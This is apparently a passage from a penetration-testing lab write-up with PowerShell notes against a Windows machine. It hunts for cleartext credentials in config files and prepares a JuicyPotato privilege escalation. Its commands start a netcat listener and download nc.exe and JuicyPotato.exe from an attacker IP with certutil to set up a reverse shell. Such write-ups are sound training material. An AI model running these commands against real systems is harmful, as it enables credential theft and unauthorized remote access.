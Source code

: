     Get-HotFix | ft -AutoSize
    # get hotfix IDs

    # we need to find cleartext creds for 'ldapadmin' user

    cd C:\

    findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
    # search for password in common files

    Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore
    # search for common file extensions for cred hunting

    # testing with tools like LaZagne.exe also does not give anything
    # we can try searching this again after privesc
    ```

    ```ps
    # enumerating for privesc
    net user

    whoami /priv
    # this shows SeImpersonatePrivilege is enabled
    # we can use the JuicyPotato exploit

    # on attacker, setup server to transfer nc.exe and JuicyPotato.exe
    python3 -m http.server

    # setup listener as well
    nc -nvlp 4445

    # on target reverse shell
    certutil.exe -urlcache -f http://10.10.14.252:8000/nc.exe nc.exe

    certutil.exe -urlcache -f http://10.10.14.252:8000/JuicyPotato.exe JuicyPotato.exe
